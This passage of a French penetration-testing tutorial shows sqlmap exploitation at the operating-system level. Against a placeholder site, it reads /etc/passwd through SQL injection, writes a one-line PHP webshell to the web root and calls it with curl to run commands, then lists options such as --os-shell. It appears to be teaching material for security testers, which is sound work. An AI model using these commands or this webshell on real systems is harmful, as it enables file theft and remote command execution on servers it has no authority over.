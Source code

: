 **Lecture d’un fichier :**

1.  Vérifier les privilèges DBA :

    ```bash
    sqlmap -u "http://www.example.com/?id=1" --is-dba
    ```
2.  Lire un fichier :

    ```bash
    sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
    ```
3. Résultat : Le fichier est sauvegardé localement.

**Écriture d’une webshell :**

1.  Créer une webshell :

    ```bash
    echo '<?php system($_GET["cmd"]); ?>' > shell.php
    ```
2.  Écrire sur le serveur :

    {% code overflow="wrap" %}
    ```bash
    sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
    ```
    {% endcode %}
3.  Accéder à la webshell :

    ```bash
    curl http://www.example.com/shell.php?cmd=ls+-la
    ```

***

### <mark style="color:blue;">**4. Résumé des options SQLMap pour l’exploitation OS**</mark>

| **Option**      | **Description**                               |
| --------------- | --------------------------------------------- |
| `--file-read`   | Lire un fichier distant.                      |
| `--file-write`  | Écrire un fichier distant.                    |
| `--file-dest`   | Chemin de destination pour l’écriture.        |
| `--os-shell`    | Obtenir un shell interactif sur le système.   |
| `--technique=X` | Choisir une technique d’injection spécifique. |
| `--is-dba`      | Vérifier si l’utilisateur est DBA.            |

***

